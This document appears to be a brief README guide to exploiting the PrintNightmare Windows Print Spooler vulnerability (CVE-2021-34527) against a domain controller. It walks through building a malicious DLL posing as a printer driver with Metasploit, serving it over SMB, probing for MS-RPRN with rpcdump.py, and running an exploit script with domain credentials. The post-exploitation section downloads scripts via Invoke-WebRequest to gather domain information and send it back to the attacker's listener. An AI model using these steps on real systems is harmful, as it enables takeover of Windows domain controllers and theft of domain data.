 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)

Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
   https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
3. Run SMB server service and modify the config file
4. Place the faked printer driver to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
6. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
'''

